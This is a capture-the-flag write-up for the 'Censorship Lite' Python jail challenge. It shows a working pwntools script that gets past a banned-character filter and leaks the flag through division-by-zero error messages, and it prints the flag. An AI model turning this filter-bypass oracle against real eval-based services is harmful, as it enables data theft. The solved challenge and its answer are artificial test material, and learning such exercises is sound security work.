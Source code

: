 # Misc - Censorship Lite

## Problem

We are faced with another Python jail problem:

```python
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "\lite0123456789"]):
                raise ValueError("invalid input")
            exec(eval(code))
        except Exception as err:
            print(err)
```

## Solution

The difficulty for this Python Jail is increased from `e,t,\` characters to `\lite0123456789`. Again, we note that if an exception was triggered, An error message will be printed. 

We can take advantage of this by considering the division-by-zero exception and perform `1/(ord(guess_char)-ord(_[flag_char_pos]))` to bruteforce the flag character by character. However, because digits are banned, a small trick is used:

```python
one = (ord('!') - ord(' ')) # = 1
# Used when encountering '\lite' --> Use ord(next_char) - one to bypass

ten = (ord('*') - ord(' ')) # = 10
# Used when encountering '0123456789' --> Use ord(next_char) - ten to bypass

```

Solve script is as follows:

```python
from pwn import *

r = remote('amt.rs', 31671)
print(r.recv(256))
# Note: replace # in final flag with ' since ' will cause syntax error
flag = ''
print(len(flag))
flaglen = 100
# Re-run a few times due to timeout, store partial result in "flag"
onestr = f"(ord('!') - ord(' '))"
tenstr = f"(ord('*') - ord(' '))"
for j in range(len(flag), flaglen + 1):
    jstr = f"(ord('{chr(j + ord(' '))}'))"
    if any([c in jstr for c in "\lite"]):
        jstr = f"(ord('{chr(j + ord(' ') + 1)}') - {onestr})"
    if any([c in jstr for c in "0123456789"]):
        jstr = f"(ord('{chr(j + ord(' ') + 10)}') - {tenstr})"
    jstr += f" - ord(' ')"
    found = False
    for i in range(32, 128):
        istr = f"ord('{chr(i)}')"
        # Substitution
        if any([c in istr for c in "\lite"]):
            istr = f"(ord('{chr(i + 1)}') - {onestr})"
        if any([c in istr for c in "0123456789"]):
            istr = f"(ord('{chr(i + 10)}') - {tenstr})"
        payload = f"{onestr} / ({istr} - ord(_[{jstr}]))"
        #print(payload)
        r.sendline(payload.encode('utf-8'))
        res = r.recv(256).decode('utf-8')
        if 'division by zero' in res:
            found = True
            flag += str(chr(i))
            print("FLAG:", flag)
            break
    if not found:
        flag += '#'
        print("FLAG:", flag)
        continue
```

## Flag

amateursCTF{sh0uld'v3_r3strict3D_p4r3nTh3ticaLs_1nst3aD}